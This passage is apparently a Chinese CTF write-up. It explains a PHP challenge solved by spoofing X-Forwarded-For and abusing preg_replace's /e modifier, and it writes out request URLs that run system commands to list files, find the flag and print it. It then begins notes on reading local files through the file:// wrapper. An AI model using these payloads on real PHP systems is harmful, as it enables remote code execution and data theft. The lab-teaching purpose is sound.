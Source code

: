 *  `ctype_alnum ( string $text ) : bool` — 做字母和数字字符检测，如果text中所有的字符全部是字母和(或者)数字，返回 TRUE 否则返回FALSE

源码里，接收到一个page值，首先判断是否存在，

之后判断是否全部为字母和数字，如果是就直接输出后die,如果不是就继续下面的操作。

利用`strops`检测传入的字符串，如果包含字符串中包含`input、ta:text、text`,并且不是在第一个字符就出现，就直接die停止，如果传入的值是`index.php`,就输出ok后停止。如果都不是就`include`包含它。

最后还有一个内部人员调试功能，只需要`$_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1'`,但其实这个值是可以伪造的。

之后接收三个值，利用`preg_replace`匹配。这里就用到了`preg_replace`的一个特殊点。

```
 preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed

搜索subject中匹配pattern的部分， 以replacement进行替换。 

/e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）。
提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。
```

伪造xff之后，发现`Welcome My Admin ! `

![akGYnA.png](https://s1.ax1x.com/2020/07/28/akGYnA.png)

`/index.php?pat=/a/e&rep=system('ls')&sub=abc`即可成功执行system函数，注意这里`sub`参数里匹配到`pat`参数的内容。

`/index.php?pat=/a/e&rep=system('find / -name *flag*')&sub=abc`查到flag在`/var/www/html/s3chahahaDir/flag/flag.php`.

`/index.php?pat=/a/e&rep=system('cat "/var/www/html/s3chahahaDir/flag/flag.php"')&sub=abc`右键源代码直接得到flag.



**【file://协议】**

PHP.ini：

file:// 协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响

参考自：http://php.net/manual/zh/wrappers.file.php

使用方法：

```
file:// [文件的绝对路径和文件名]

http://127.0.0.1/cmd.php?file=file://D:/soft/phpStudy/WWW/phpcode.txt
```

**【php://协议】**

条件：
